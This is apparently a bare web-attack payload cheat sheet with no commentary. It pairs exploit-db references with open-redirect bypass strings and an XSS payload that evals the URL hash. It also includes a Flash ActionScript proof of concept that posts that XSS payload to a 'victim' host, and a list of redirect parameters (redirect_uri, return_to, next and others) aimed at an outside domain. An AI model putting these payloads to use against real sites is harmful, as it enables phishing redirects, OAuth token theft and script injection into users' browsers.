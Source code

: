 https://www.exploit-db.com/exploits/47689 --> https://redirect.local/%0a.evilwebsite.com
https://www.exploit-db.com/exploits/47688 --> http://domain.tld/%09//otherdomain.tld
https://www.exploit-db.com/exploits/31052 --> <img%20src=sa%20 onerror=eval(document.location.hash.substr(1))>#alert(123)

 public class TestXss extends flash.display.Sprite {
    public function TestXss(){
      var r:URLRequest = new URLRequest('http://victim/<img%20src=sa%20
                  onerror=eval(document.location.hash.substr(1))>#alert(123)');

      r.method = 'POST';
      r.data = unescape('test');
      r.requestHeaders.push(new URLRequestHeader('Accept', 'image/jpeg; q=0'));

      navigateToURL(r, '_self');
     
    }
    }

?authorize_callback=///example.com
?return=///example.com
?url=///example.com
?redirect=///example.com
?return_to=///example.com
?next=///example.com
?returnTo=///example.com
?returnurl=///example.com
//example.com/
?redirect_uri=///example.com
?next=///example.com
/redirect?url=///example.com
?from=%20https://example.com
?forum_reg=http://example.com/
?u=example.com
?dir=///example.com

